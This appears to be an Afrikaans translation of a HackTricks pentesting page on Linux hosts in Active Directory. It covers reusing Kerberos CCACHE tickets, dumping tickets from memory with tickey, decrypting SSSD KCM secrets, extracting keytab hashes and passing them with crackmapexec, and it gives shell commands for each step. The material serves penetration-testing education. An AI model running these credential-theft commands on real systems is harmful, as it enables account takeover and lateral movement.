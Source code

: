# Linux Active Directory

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% embed url="https://websec.nl/" %}

'n Linux masjien kan ook teenwoordig wees binne 'n Active Directory omgewing.

'n Linux masjien in 'n AD mag **verskillende CCACHE kaartjies binne lêers stoor. Hierdie kaartjies kan gebruik en misbruik word soos enige ander kerberos kaartjie**. Om hierdie kaartjies te lees, moet jy die gebruiker-eienaar van die kaartjie wees of **root** binne die masjien.

## Enumerasie

### AD enumerasie vanaf linux

As jy toegang het oor 'n AD in linux (of bash in Windows) kan jy probeer [https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn) om die AD te enumerate.

Jy kan ook die volgende bladsy nagaan om te leer **ander maniere om AD vanaf linux te enumerate**:

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

FreeIPA is 'n oopbron **alternatief** vir Microsoft Windows **Active Directory**, hoofsaaklik vir **Unix** omgewings. Dit kombineer 'n volledige **LDAP gids** met 'n MIT **Kerberos** Sleutelverspreidingsentrum vir bestuur soortgelyk aan Active Directory. Dit gebruik die Dogtag **Sertifikaatstelsel** vir CA & RA sertifikaatbestuur, en ondersteun **multi-faktor** verifikasie, insluitend slimkaarte. SSSD is geïntegreer vir Unix verifikasieprosesse. Leer meer daaroor in:

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## Speel met kaartjies

### Pass The Ticket

Op hierdie bladsy gaan jy verskillende plekke vind waar jy **kerberos kaartjies binne 'n linux gasheer kan vind**, op die volgende bladsy kan jy leer hoe om hierdie CCache kaartjie formate na Kirbi (die formaat wat jy in Windows moet gebruik) te transformeer en ook hoe om 'n PTT aanval uit te voer:

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### CCACHE kaartjie hergebruik vanaf /tmp

CCACHE lêers is binêre formate vir **storing Kerberos akrediteer** en word tipies gestoor met 600 toestemmings in `/tmp`. Hierdie lêers kan geïdentifiseer word deur hul **naamformaat, `krb5cc_%{uid}`,** wat ooreenstem met die gebruiker se UID. Vir verifikasie van die verifikasieticket, moet die **omgewing veranderlike `KRB5CCNAME`** op die pad van die gewenste kaartjie lêer gestel word, wat hergebruik moontlik maak.

Lys die huidige kaartjie wat vir verifikasie gebruik word met `env | grep KRB5CCNAME`. Die formaat is draagbaar en die kaartjie kan **hergebruik word deur die omgewing veranderlike** met `export KRB5CCNAME=/tmp/ticket.ccache` te stel. Kerberos kaartjie naamformaat is `krb5cc_%{uid}` waar uid die gebruiker se UID is.
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### CCACHE kaart hergebruik vanaf sleutelring

**Kerberos-kaarte wat in 'n proses se geheue gestoor is, kan onttrek word**, veral wanneer die masjien se ptrace-beskerming gedeaktiveer is (`/proc/sys/kernel/yama/ptrace_scope`). 'n Nuttige hulpmiddel vir hierdie doel is te vind by [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey), wat die onttrekking vergemaklik deur in sessies in te spuit en kaarte in `/tmp` te dump.

Om hierdie hulpmiddel te konfigureer en te gebruik, word die onderstaande stappe gevolg:
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
Hierdie prosedure sal probeer om in verskeie sessies in te spuit, wat sukses aandui deur onttrokken kaartjies in `/tmp` te stoor met 'n naamkonvensie van `__krb_UID.ccache`.

### CCACHE kaartjie hergebruik van SSSD KCM

SSSD hou 'n kopie van die databasis by die pad `/var/lib/sss/secrets/secrets.ldb`. Die ooreenstemmende sleutel word as 'n verborge lêer by die pad `/var/lib/sss/secrets/.secrets.mkey` gestoor. Standaard is die sleutel slegs leesbaar as jy **root** regte het.

Die **`SSSDKCMExtractor`** met die --database en --key parameters sal die databasis ontleed en **die geheime** dekripteer.
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
Die **akkrediteringskas Kerberos blob kan in 'n bruikbare Kerberos CCache** lêer omgeskakel word wat aan Mimikatz/Rubeus oorgedra kan word.

### CCACHE kaartjie hergebruik vanaf keytab
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### Trek rekeninge uit /etc/krb5.keytab

Diensrekening sleutels, wat noodsaaklik is vir dienste wat met wortelprivileges werk, word veilig gestoor in **`/etc/krb5.keytab`** lêers. Hierdie sleutels, soortgelyk aan wagwoorde vir dienste, vereis streng vertroulikheid.

Om die inhoud van die keytab-lêer te ondersoek, kan **`klist`** gebruik word. Die hulpmiddel is ontwerp om sleuteldetails te vertoon, insluitend die **NT Hash** vir gebruikersverifikasie, veral wanneer die sleuteltipe as 23 geïdentifiseer word.
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
Vir Linux gebruikers bied **`KeyTabExtract`** funksionaliteit om die RC4 HMAC-has te onttrek, wat benut kan word vir NTLM-has hergebruik.
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
Op macOS dien **`bifrost`** as 'n hulpmiddel vir sleuteltabelfilaanalyse.
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
Met die onttrokken rekening- en hash-inligting kan verbindings met bedieners gevestig word met behulp van gereedskap soos **`crackmapexec`**.
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## Verwysings

* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

